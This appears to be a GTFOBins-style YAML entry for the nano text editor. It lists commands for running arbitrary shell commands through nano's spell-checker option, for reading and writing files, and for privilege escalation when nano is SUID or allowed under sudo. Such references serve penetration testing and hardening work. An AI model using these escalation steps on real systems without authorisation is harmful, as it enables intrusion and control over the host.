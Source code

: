 ```yaml
---
functions:
  execute-non-interactive:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        nano -s $TF /etc/hosts
        ^T
  file-write:
    - code: |
        nano file_to_write
        DATA
        ^O
  file-read:
    - code: nano file_to_read
  suid-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
        chmod +x $TF
        ./nano -s $TF /etc/hosts
        ^T
  sudo-enabled:
    - description: After running this exit the editor to see the command output.
      code: |
        COMMAND=id
        TF=$(mktemp)
        echo "$COMMAND" > $TF
        chmod +x $TF
        sudo nano -s $TF /etc/hosts
        ^T
---
```

